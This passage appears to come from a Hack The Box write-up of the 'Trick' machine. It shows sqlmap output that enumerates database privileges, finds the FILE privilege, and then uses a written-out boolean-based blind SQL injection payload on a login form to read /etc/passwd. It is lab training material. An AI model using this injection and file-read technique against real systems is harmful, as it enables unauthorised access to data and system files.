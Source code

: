 ```
back-end DBMS: MySQL 5 (MariaDB fork)
[06:53:35] [INFO] fetching database users privileges
[06:53:35] [INFO] fetching database users
[06:53:35] [INFO] fetching number of database users
[06:53:35] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[06:53:35] [INFO] retrieved: 1
[06:53:38] [INFO] retrieved: 'remo'@'locaihost'
[06:54:42] [INFO] fetching number of privileges for user 'remo'
[06:54:42] [INFO] retrieved: 1
[06:54:44] [INFO] fetching privileges for user 'remo'
[06:54:44] [INFO] retrieved: FILE
database management system users privileges:
[*] %remo% [1]:
    privilege: FILE

[06:55:02] [INFO] fetched data logged to text files under '/home/mark/.local/share/sqlmap/output/preprod-payroll.trick.htb.'

[*] ending @ 06:55:02 /2023-02-07/
```

Cool the user has FILE privilege meaning he can read the local files lets test it to confirm

```
┌──(venv)─(mark__haxor)-[~/Desktop/B2B/HTB/Trick]
└─$ sqlmap -r request --batch --technique B --level 5 --file-read=/etc/passwd
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:57:27 /2023-02-07/

[06:57:27] [INFO] parsing HTTP request from 'request'
[06:57:27] [INFO] resuming back-end DBMS 'mysql' 
[06:57:27] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=lol' AND 1401=(SELECT (CASE WHEN (1401=1401) THEN 1401 ELSE (SELECT 3464 UNION SELECT 5831) END))-- pFpw&password=lol
---
[06:57:28] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL 5 (MariaDB fork)
[06:57:28] [INFO] fingerprinting the back-end DBMS operating system
[06:57:29] [INFO] the back-end DBMS operating system is Linux
[06:57:29] [INFO] fetching file: '/etc/passwd'
[06:57:29] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[06:57:29] [INFO] retrieved: 726F6F743A783A303A303A726F6F743A2F726F6F743A2F60696E2F626173680A6461656DbF6E3A
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[07:00:22] [INFO] retrieved: 2351
```